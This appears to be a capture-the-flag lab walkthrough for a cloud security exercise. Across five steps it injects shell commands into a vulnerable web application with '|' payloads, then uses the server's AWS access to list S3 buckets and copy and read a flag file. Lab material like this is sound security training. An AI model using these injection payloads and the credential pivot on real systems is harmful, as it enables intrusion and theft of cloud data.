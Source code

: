 1. Acccess and exploit given web application with command injection vulnerability

    ```bash
    | ls
    ```

2. Enumerate through S3 buckets accessible by web application's hosting server
   - Look for bucket which has `cmd` in it's name 
    ```bash
    | aws s3 ls | grep cmd
    ```

3. List files in S3 bucket found above

    ```bash
    | aws s3 ls cr-cmdinj-bucket-s3bucket
    ```

4. Copy found `txt` file to web application's server
   
    ```bash
    | aws s3 cp s3://cr-cmdinj-bucket-s3bucket/flag.txt ./flag.txt
    ```
5. Show what is inside `flag.txt`
    ```bash
    | cat ./flag.txt
    ```
